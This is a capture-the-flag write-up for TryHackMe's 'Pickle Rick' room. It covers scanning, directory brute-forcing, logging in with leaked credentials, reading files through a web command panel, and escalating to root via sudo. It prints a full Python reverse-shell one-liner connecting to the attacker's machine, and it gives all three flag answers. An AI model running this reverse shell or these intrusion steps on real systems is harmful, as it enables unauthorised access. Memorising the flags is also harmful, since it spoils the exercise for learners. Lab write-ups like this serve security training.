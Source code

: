 ###### A Rick and Morty CTF. Help turn Rick back into a human!   
Room: https://tryhackme.com/room/picklerick
##

After a scanning with nmap, we can see that ports 22 and 80 are open.  

Port 80 - is the website we're currently inspecting, at http://[machine_ip].  
Port 22 - is the SSH service running, which may be useful at a later time.

We can run a directory bruteforcing tool to scan the website, in order to discover hidden directories.   

Personally, I'll use gobuster, but dirbuster can be used as a GUI alternative.  

While the scan is running, I had a quick look at the main page's source code. We see that the developers left some notes for themselves.   

> Username: R1ckRul3s

In the meanwhile, the directory bruteforcing has finished. We found a few interesting results.  

First of all, the file robots.txt contains some (maybe) useful information: **Wubbalubbadubdub**  

Using the username found earlier and the text inside robots.txt we can log in as Rick in the /login.php page.  

There we find a command panel, the other links being unavaible. Using the **ls** command it returns the files inside the current directory.  

###### The output of **ls** command  

>Sup3rS3cretPickl3Ingred.txt  
>assets  
>clue.txt  
>denied.php  
>index.html  
>login.php  
>portal.php  
>robots.txt   

The downside is that the **cat** command is disabled.  

Using some bash, we can use __while read line; do echo $line; done <Sup3rS3cretPickl3Ingred.txt__  

The output of the file content is **mr. meeseek hair**, being the **first** flag we need for this CTF. **[1]**

We can read the **clue.txt** file using the same method as before.  
>Look around the file system for the other ingredient.

Since Python is installed on the remote machine, I used a python reverse shell and started a netcat listener on the attacking machine. 

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MY_MACHINE_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
* Use pty.spawn("/bin/bash") at the end for spawning a bash shell insdead of a sh. 

We get a reverse shell as www-data user. After checking the SUDO permissions, we see that this user has permission to run any command with sudo privileges, which makes it really easy for us to find the other two flags on the system.  

By using the **sudo su root** command, we can switch to the user **root**.  

The second **flag** is **1 jerry tear** and is located at **/home/rick**. **[2]**  

The third and final **flag** is **fleeb juice** and is located inside the **/root** directory. **[3]**
